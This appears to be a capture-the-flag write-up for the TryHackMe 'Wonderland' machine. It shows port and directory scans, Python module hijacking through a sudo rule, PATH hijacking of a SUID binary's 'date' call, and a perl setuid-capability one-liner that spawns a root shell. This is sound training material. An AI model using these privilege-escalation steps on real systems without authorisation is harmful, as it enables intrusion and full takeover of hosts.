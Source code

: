# Wonderland

![fdba6eaf85513262b2a9b12875b0f342](https://user-images.githubusercontent.com/56447720/151762571-4b11cc2d-a580-48d3-8e62-896d58f219f4.jpeg)

## Port Scan

```bash
└─$ cat nmap_results                                                                                                                    1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-30 18:59 IST
Nmap scan report for 10.10.82.194 (10.10.82.194)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

```

## Directory Scan

```bash
└─$ feroxbuster -u http://10.10.82.194/ -w /usr/share/wordlists/dirb/big.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher                    ver: 2.4.0
───────────────────────────┬──────────────────────
     Target Url            │ http://10.10.82.194/
     Threads               │ 50
     Wordlist              │ /usr/share/wordlists/dirb/big.txt
     Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
     Timeout (secs)        │ 7
     User-Agent            │ feroxbuster/2.4.0
     Config File           │ /etc/feroxbuster/ferox-config.toml
     Recursion Depth       │ 4
     New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        0l        0w        0c http://10.10.82.194/img
301        0l        0w        0c http://10.10.82.194/poem
301        0l        0w        0c http://10.10.82.194/r
301        0l        0w        0c http://10.10.82.194/r/a
301        0l        0w        0c http://10.10.82.194/r/a/b
301        0l        0w        0c http://10.10.82.194/r/a/b/b
[####################] - 4m    122808/122808  0s      found:6       errors:0      
[####################] - 2m     20468/20468   146/s   http://10.10.82.194/
[####################] - 2m     20468/20468   126/s   http://10.10.82.194/img
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/poem
[####################] - 2m     20468/20468   116/s   http://10.10.82.194/r
[####################] - 2m     20468/20468   129/s   http://10.10.82.194/r/a
[####################] - 1m     20468/20468   170/s   http://10.10.82.194/r/a/b

```

* the url was made with word `rabbit`
* Visiting `http://10.10.82.194/r/a/b/b/i/t/` gave `ssh password` in the source code (`view-source:http://10.10.82.194/r/a/b/b/i/t/`)

## User flag

* The hint said `everything's upside down here`, as `root.txt` was in user's directory, the `user.txt` was in root directory

```bash

alice@wonderland:~$ cat /root/user.txt
thm{<--SNIPPED-->}

```

### User raabit

* `sudo -l`

```bash
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

* The current directory had a python file that imports random library
* We should create a file `random.py` so python would take it executes it

```python

import os
os.system('/bin/bash')
```

* Save the prgm with name `random.py`
* Run it

```bash
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ ls
__pycache__  random.py  root.txt  walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit

```

### User hatter

* The binary `teaParty` had suid bit

```bash
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Mon, 31 Jan 2022 10:11:17 +0000
Ask very nicely, and I will give you some tea while you wait for him
sure
Segmentation fault (core dumped)

```

* strings wasn't installed on the machine so I used python server and took that file on my local machine

```bash
└─$ strings teaParty 
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0

<--SNIPPED-->
```

* The binary uses date for throwing out the time
* `/bin/echo -n 'Probably by ' && date --date='next hour' -R`
* we can use same methodology as previous peivilege escalation
* create a file name `date` and add it to `$PATH` variable

```bash
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

python3 ../alice/random.py

```

* I've used random.py file which we used earlier, you can replace the python3 line with `/bin/bash`
* Run the file to get hatter user

```bash
rabbit@wonderland:/home/rabbit$ ls
date  teaParty
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

* password file
* The hatter's directory had password file for the user hatter

```bash
hatter@wonderland:/home/hatter$ cat password.txt 
<--SNIPPED-->
hatter@wonderland:/home/hatter$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

* We still have group id as rabbit
* use the password to escalate privileges : `ssh hatter@localhost`

```bash
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)

```

## Root User

* Checked for capabilities

```bash
hatter@wonderland:~$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

* Perl has an setuid
* GTFO bins have payload for capabilities, suid, sudo, etc : `https://gtfobins.github.io/gtfobins/perl/`
* Use `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` to get root shell

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id                
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
thm{<--SNIPPED-->}

```
